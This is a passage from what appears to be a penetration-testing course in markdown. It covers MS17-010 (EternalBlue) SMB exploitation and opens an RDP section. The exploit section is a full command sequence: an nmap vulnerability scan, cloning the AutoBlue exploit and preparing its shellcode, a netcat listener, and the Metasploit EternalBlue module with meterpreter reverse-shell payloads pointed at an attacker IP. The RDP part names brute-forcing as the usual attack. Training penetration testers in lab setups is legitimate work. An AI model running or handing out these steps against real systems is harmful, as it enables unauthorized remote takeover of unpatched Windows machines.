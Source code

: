 <a id=2.3.2.4></a>
#### MS17-010 SMB Exploitation

```bash
$ nmap -p445 --script smb-vuln-ms17-010 [TARGET]
# Script to check if the MS17-010 vulnerability exists or not.
$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010
$ cd AutoBlue-MS17-010/shellcode
$ chmod +x shell_prep.sh
$ ./shell_prep.sh
# Do what the programs tells you to do.
# It will generate both x86 and x64 bit shellcodes. We will use 
# those for exploitation.
# Choose between sc_x86.bin or sc_x64.bin, depending on architecture.
# If unknown, go for a 32 bit payload. 
$ cd ..
# Open another shell and prepare a Netcat listener.
$ nc -nlvp [PORT]
# Then on the AutoBlue-MS17-010 directory run the following
$ python eternalblue_exploit[7-8-10].py [ATTACKER IP] shellcode/[sc_x86.bin/sc_x64.bin]
# Now the Metasploit way.
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit > use payload windows/meterpreter/reverse_tcp # If the target is x86.
msf5 exploit > use payload windows/x64/meterpreter/reverse_tcp # If the target is x64.
msf5 exploit > set RHOSTS [TARGET]
msf5 exploit > set LHOST [ATTACKER IP]
msf5 exploit > set LPORT [ATTACKER PORT]
msf5 exploit > exploit
```

<a id=2.3.2.5></a>
#### Lab setup

Download a Windows Server image like this one https://archive.org/details/WinSrv2008R2FoundationSP1
set up a virtual machine with VirtualBox or whatever virtualization software you have at hand.

We will probably use it further on in the course, so it'll come in handy.

<a id=2.3.3></a>
### RDP Exploitation

<a id=2.3.3.1></a>
#### What is RDP?

The Remote Desktop Protocol is a protocol developed by Microsoft to create GUI connections for system's 
remote control. It uses TCP port 3389 by default, although it is often changed. 

It requires a legitimate user and password for authentication. For this reason, the most used attack 
vector is bruteforcing.

It uses TCP 3389 but can be reconfigured. Usually the RDP protocol is listening on a 
different port than 3389.
